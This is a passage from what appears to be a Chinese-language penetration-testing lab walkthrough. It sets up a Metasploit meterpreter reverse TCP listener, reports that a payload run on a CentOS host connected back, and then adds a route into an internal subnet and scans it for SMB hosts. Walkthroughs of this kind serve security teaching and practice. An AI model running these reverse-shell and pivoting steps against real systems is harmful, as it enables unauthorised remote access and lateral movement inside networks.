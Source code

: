 set payload linux/x86/meterpreter/reverse_tcp

set lhost 192.168.1.106

set lpost 4444

exploit

![img](assets/1685441189194-c997fb0b-41ed-473b-b81d-e8cb404a394d-170339517269781.png)

在msf运行监听后，在centos执行payload，成功上线

![img](assets/1685441247387-beb132a7-9475-49e1-b03e-fa2e8535f306-170339517269783.png)

![img](assets/1685441399812-5c7bdf27-b21a-4349-adfe-5bd3150b08bd-170339517269785.png)



## 3.信息收集

添加路由，然后将meterpreter放在后台，使用MSF的auxiliary/scanner/smb/smb_version模块扫内网的存活主机

run autoroute -s 192.168.93.0/24

bg

use auxiliary/scanner/smb/smb_version

set rhosts 192.168.93.0/24
